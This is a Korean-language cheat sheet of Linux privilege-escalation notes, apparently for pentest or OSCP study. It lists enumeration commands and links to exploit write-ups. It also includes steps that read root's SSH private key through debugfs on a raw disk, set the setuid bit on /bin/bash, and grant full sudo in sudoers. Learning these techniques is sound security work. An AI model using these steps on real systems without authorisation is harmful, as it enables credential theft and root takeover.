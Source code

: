 ```bash
# OS정보 확인
cat /etc/issue

cat /etc/os-release

uname -a
```
```bash
# 프로세스 및 네트워크 상태 확인
ps aux

ifconfig

routel

ss -anp

cat /etc/iptables/rules.v4
- IPv4 iptables 방화벽 규칙 확인.
```
```bash
ls -al /etc/cron*
sudo crontab -l
```
```bash
# 패키지 목록 조회
dpkg -l
```
```bash
find / -writable -type d 2>/dev/null

find /etc -writable -type f 2>/dev/null

find /usr -writable -type f 2>/dev/null

find /var -writable -type f 2>/dev/null
```
```bash
# 마운트 및 디스크 정보 조회
cat /etc/fstab
- 부팅 시 자동 마운트되는 파일 시스템 정보 확인.

mount

lsblk
- 블록 디바이스(디스크, 파티션) 정보 출력.
```
```bash
# 커널 모듈 정보
lsmod
- 현재 로드된 커널 모듈 목록 표시.

/sbin/modinfo libata
- 특정 커널 모듈(`libata`)의 상세 정보 확인.
```
```bash
find / -perm -4000 -type f 2>/dev/null
```
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
```bash
sudo -l
```
---
# Linux Exploit Suggester
- https://github.com/The-Z-Labs/linux-exploit-suggester
- 예전 버전 리눅스 취약점 발견에 용이
---

# disk group privilege escalation
- https://www.hackingarticles.in/disk-group-privilege-escalation/
- `disk` 그룹은 **로우 블록 디바이스**(예: `/dev/sda`, `/dev/nvme0n1p2`)에 접근할 수 있습니다.  
```bash
df -h
- 현재 마운트된 파일시스템의 디스크 사용량을 사람이 읽기 쉬운 형태로 출력합니다.
```
<img width="689" height="248" alt="image" src="https://github.com/user-attachments/assets/96e0cff6-b9f2-4624-9c36-417a71ddac0c" />

```bash
debugfs /dev/sda3
- 파일시스템의 내부 구조를 조작하거나 디버깅할 수 있는 저수준 파일시스템 디버거 실행

mkdir test
- readonly로 설정되어 있으면 아래 코드 실행

cat /root/.ssh/id_rsa
```
# sudo group
```bash
sudo su
```
---
# rpc.py
- https://github.com/abersheeran/rpc.py
- https://www.exploit-db.com/exploits/50983
---
# makefile privesc
<img width="706" height="636" alt="image" src="https://github.com/user-attachments/assets/553e10b6-f5d7-4494-b3da-94c3167651d4" />

- https://medium.com/@adamforsythebartlett/makefile-privilege-escalation-oscp-62ea2c666d23
---
# system ctl
```bash
# nginx 서비스 유닛 내용 보기
systemctl cat nginx.service
```
---
# 7z wild card exploit
- https://chinnidiwakar.gitbook.io/githubimport/linux-unix/privilege-escalation/wildcards-spare-tricks
---
# tar wild card exploit
<img width="675" height="350" alt="image" src="https://github.com/user-attachments/assets/af27b485-c6fb-4ab7-9b35-b2e20a5f01fa" />

- https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa
---
# sudoers
```bash
user    ALL=(ALL:ALL) ALL
```
---
# set setuid
```bash
chmod +s /bin/bash
```
